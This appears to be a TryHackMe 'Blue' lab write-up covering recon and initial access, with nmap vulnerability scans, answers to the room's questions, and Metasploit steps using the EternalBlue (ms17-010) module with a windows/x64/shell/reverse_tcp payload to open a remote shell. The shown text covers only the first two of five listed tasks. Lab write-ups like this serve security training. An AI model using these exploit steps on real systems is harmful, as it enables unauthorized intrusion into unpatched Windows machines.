 <img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/blue-1.png">
<strong> Room Link: </strong> <a href="https://tryhackme.com/r/room/blue"> https://tryhackme.com/r/room/blue</a>



##### Room Contents:

1. Task 1: Recon
2. Task 2: Gain Access
3. Task 3: Escalate
4. Task 4: Cracking
5. Task 5: Find Flags!






Task 1: Recon  

Q: Scan the machine.   
A: No answer needed. 

Q: How many ports are open with a port number under 1000?
A: 3

Q: What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
A: ms17-010


```
nmap -vv -p- -T4 10.10.14.28
```
<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/blue-2.png">


```
nmap -sV -sC --script vuln 10.10.14.28
```

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/blue-4.png">



Task 2: Gain Access

Exploit the machine and gain a foothold.

 
Start Metasploit

A: No answer needed

 <img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/thm-blue-5.png">
 
 
Q: Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

A: exploit/windows/smb/ms17_010_eternalblue
 <img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/thm-blue-6.png">


Q: Show options and set the one required value. What is the name of this value? (All caps for submission)

A: RHOSTS
 
 <img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/thm-blue-7.png"> 

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/thm-blue-8.png"> 
 
Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

set payload windows/x64/shell/reverse_tcp

With that done, run the exploit!

A: No answer needed

 
Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 



<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/thm/thm-blue-badge.png">





